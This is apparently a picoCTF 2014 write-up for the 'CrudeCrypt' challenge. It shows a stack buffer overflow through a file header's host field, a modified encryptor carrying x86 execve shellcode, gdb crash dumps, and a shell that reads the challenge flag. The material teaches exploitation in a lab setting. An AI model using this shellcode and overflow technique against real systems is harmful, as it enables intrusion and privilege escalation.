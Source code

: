 ```yaml
---
layout: post
title: "picoCTF 2014 CrudeCrypt"
date: 2014-11-07 20:07:07 -0500
author: [barrebas]
comments: true
categories: [picoctf]
---
```


### Solved by barrebas

Crudecrypt is a 180 point challenge. 

We are given access to a program that can encrypt and decrypt a file. The program does not try to sanitize user input when decrypting:

```c
void decrypt_file(FILE* enc_file, FILE* raw_file, unsigned char* key) {
    int size = file_size(enc_file);
    char* enc_buf = calloc(1, size);
    fread(enc_buf, 1, size, enc_file);

    if(decrypt_buffer(enc_buf, size, (char*)key, 16) != 0) {
        printf("There was an error decrypting the file!\n");
        return;
    }

    char* raw_buf = enc_buf;
    file_header* header = (file_header*) raw_buf;

    if(header->magic_number != MAGIC) {
        printf("Invalid password!\n");
        return;
    }

    if(!check_hostname(header)) { 
        printf("[#] Warning: File not encrypted by current machine.\n");
    }
    
    // snip
    
bool check_hostname(file_header* header) {
    char saved_host[HOST_LEN], current_host[HOST_LEN];
    
    // unsafe strncpy if we supply a large string for header->host
    strncpy(saved_host, header->host, strlen(header->host));
    safe_gethostname(current_host, HOST_LEN);
    return strcmp(saved_host, current_host) == 0;
}
```

If the attacker can supply an encrypted file header with a large host field, then we can overflow the saved_host array on the stack & overwrite EIP. We modified the source of crudecrypt.c to generate such a file:

```c
void encrypt_file(FILE* raw_file, FILE* enc_file, unsigned char* key) {
    int size = file_size(raw_file);
    size_t block_size = MULT_BLOCK_SIZE(sizeof(file_header) + size);
    char* padded_block = calloc(1, block_size);

    file_header header;
    init_file_header(&header, size);
    //safe_gethostname(header.host, HOST_LEN);
    strcpy(header.host, "AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAABBBBCCCCDDDDEEEEFFFFAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA");
```

We encrypted the payload using this modified crudecrypt.c. Then we decrypted it, observing the crash!

```
#0  0x45454545 in ?? ()
(gdb) i r
eax            0xffffff00	-256
ecx            0x73	115
edx            0xffffd660	-10656	> perfect pointer to start of buffer
ebx            0xf7dea000	-136404992
esp            0xffffd690	0xffffd690
ebp            0x44444444	0x44444444
esi            0x0	0
edi            0x0	0
eip            0x45454545	0x45454545
eflags         0x10286	[ PF SF IF RF ]
cs             0x23	35
ss             0x2b	43
ds             0x2b	43
es             0x2b	43
fs             0x0	0
gs             0x63	99
```

Looks like ALSR is off! There was no `jmp edx` in the binary that I could find, so instead, let's just jump to the buffer:

```c

void encrypt_file(FILE* raw_file, FILE* enc_file, unsigned char* key) {
    int size = file_size(raw_file);
    size_t block_size = MULT_BLOCK_SIZE(sizeof(file_header) + size);
    char* padded_block = calloc(1, block_size);

    file_header header;
    init_file_header(&header, size);
    //safe_gethostname(header.host, HOST_LEN);
    char payload[] = "\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x8d\x54\x24\x08\x50\x53\x8d\x0c\x24\xb0\x0b\xcd\x80\x31\xc0\xb0\x01\xcd\x80""BBCCCCDDDD\x30\xd6\xff\xff""FFFFAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA";
    strcpy(header.host, payload);
```

compile & run:

```
bas@tritonal:~/tmp/picoctf/crudecrypt$ gcc -o exploit exploit.c -lcrypto -lmcrypt -lssl -m32
bas@tritonal:~/tmp/picoctf/crudecrypt$ ./exploit encrypt ./a ./b
-=- Welcome to CrudeCrypt 0.1 Beta -=-
-> File password:         

=> Encrypted file successfully
*** Error in `./exploit': free(): invalid pointer: 0x0920f300 ***
Aborted (core dumped)
bas@tritonal:~/tmp/picoctf/crudecrypt$ cat b |base64
qmikXTf65Xauen/t3a0FDf1uZMI3baSe5I9hTVEJ5t04R0Vb8RgBltvIwvCvmbaOtou7THTwR5Vy
B9dA2GyFxMLF/wyNDY9V/y2bveRKWLam5xehXkNXQFSMhUJcd3RNwfgFxVlYswx4VfW1CiqmV45S
ZzbvWLRmeRdk1vyxXQSq0nyDhcPi8GhwnKp6R1ri
```

We transferred the base64 encoded payload to remote machine. We had to adjust the pointer to the shellcode because the address changes on stack due to environment changing. We found this new pointer by simply running gdb. 

```
pico1139@shell:~$ .///////////////crude_crypt decrypt ./sp ./bleh
-=- Welcome to CrudeCrypt 0.1 Beta -=-
-> File password: 

Segmentation fault (core dumped)
...
#0  0xffffd674 in ?? ()
(gdb) i r
eax            0xffffff00	-256
ecx            0xb4	180
edx            0xffffd5f2	-10766
...
(gdb) x/s 0xffffd5f2
0xffffd5f2:	"Ph//shh/bin\211\343\215T$\b...BBCCCCDDDD"
(gdb) x/2i 0xffffd5f0
   0xffffd5f0:	xor    %eax,%eax
   0xffffd5f2:	push   %eax
```

After adjusting the address to `0xffffd5f0` in the exploit, we end up with a shell! A NOP sled would've been easy, in this case. 

```
pico1139@shell:~$ cat b |base64 -d > ./sp
pico1139@shell:~$ /home/crudecrypt/crude_crypt decrypt ./sp ./bleh
-=- Welcome to CrudeCrypt 0.1 Beta -=-
-> File password: 

$ id
uid=11066(pico1139) gid=1017(picogroup) egid=1012(crudecrypt) groups=1017(picogroup)
$ whoami
pico1139
$ cat /home/crudecrypt/flag.txt
writing_software_is_hard
```

The flag is `writing_software_is_hard`.

